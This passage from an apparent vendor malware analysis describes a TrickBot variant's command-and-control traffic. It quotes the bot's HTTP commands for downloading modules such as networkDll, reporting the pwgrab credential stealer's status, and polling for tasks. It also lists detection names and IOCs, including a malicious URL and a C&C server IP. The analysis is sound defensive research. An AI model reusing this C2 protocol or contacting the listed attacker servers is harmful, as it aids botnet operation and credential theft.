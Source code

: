 
"GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/5/dpost/"


Next, it sends another command 5 request to download the configuration file for “pwgrab”.


Command 64:  "POST red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/64/pwgrab/VERS/browser/"  


When module “pwgrab” runs in svchost.exe, it directly sends stolen data to its C&C server, whose IP address and Port are defined in its configuration file (dpost file). Meanwhile, “pwbrab” updates TrickBot with its current status, and TrickBot then updates that status to its C&C server by submitting command 64. For this one, it sends pwgrab’s version information.


Command 23:  "GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/23/1000499/"


Command 23 is used to request up-to-date server configuration data, which overwrites the data shown in Figure 6.  Figure 7 is a screenshot of the up-to-date server configuration, which was just decrypted. The version has now become “1000502”.






Figure 7. Up-to-date server configuration information


Command 1: "GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/1/40sQwU0W2YyUyQuOo/" 


This command queries the C&C server for tasks. The server can then reply with similar to that below, where you can see the string “networkDll start”, which tells TrickBot to start the module “networkDll”.


Here is the response content: "/62/red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/bpdTFBvlTHxhZFzpXF1nXF1l/96322307/\r\nnetworkDll start\r\n"


TrickBot sends command 5 with “networkDll32” to the C&C server, whose IP address and Port are from command 0’s response, to download it.


"GET /red4/Mytest01-PC_W617601.46499EE873EAC4080BFC4E488048CEAA/5/networkDll32/"


Note: Most of this TrickBot variant’s constant strings that are mentioned in this post, and most data that returned from the C&C server (like modules), is encrypted. What I have referred to in this post is the decrypted plaintext. The downloaded modules and other files are saved in its home directory (“%AppData%\DirectTools” for this variant). Before they are saved, they are all double encrypted. 
Conclusion
In this post, we detailed how this TrickBot fresh variant works in a victim's machine, what technologies it uses to perform anti-analysis, as well as how the payload of TrickBot communicates with its C&C server to download the modules.
TrickBot has been active for years. The server configuration version is now 1000502, compared to the version number when we first captured it in 2016, which was 1000004. We think it will keep upgrading itself from time to time.  Since we will continue monitoring it, readers can expect that we will continue to publish new technical analysis and updates whenever a new campaign is captured in the future.
Solution
Fortinet customers are already protected from this TrickBot variant by FortiGuard’s Web Filtering, AntiVirus, and IPS services as follows:
The downloading URL is rated as "Malicious Websites" by the FortiGuard Web Filtering service.
The Word document and downloaded Dll file are detected as "VBA/TrickBot.MRVB!tr" and “W32/TrickBot.EFDC!tr” and blocked by the FortiGuard AntiVirus service.
The IP addresses of the C&C server are detected and blocked by the FortiGuard IPS signature “Trojan.TrickBot”.
IOCs:
URLs
hxxps[:]//45[.]138[.]72[.]155/1/1.php?h=m25&j=8b1e7a89&l={…}
TrickBot C&C server IP address and Port list:
<srv>107.175.87.142:443</srv>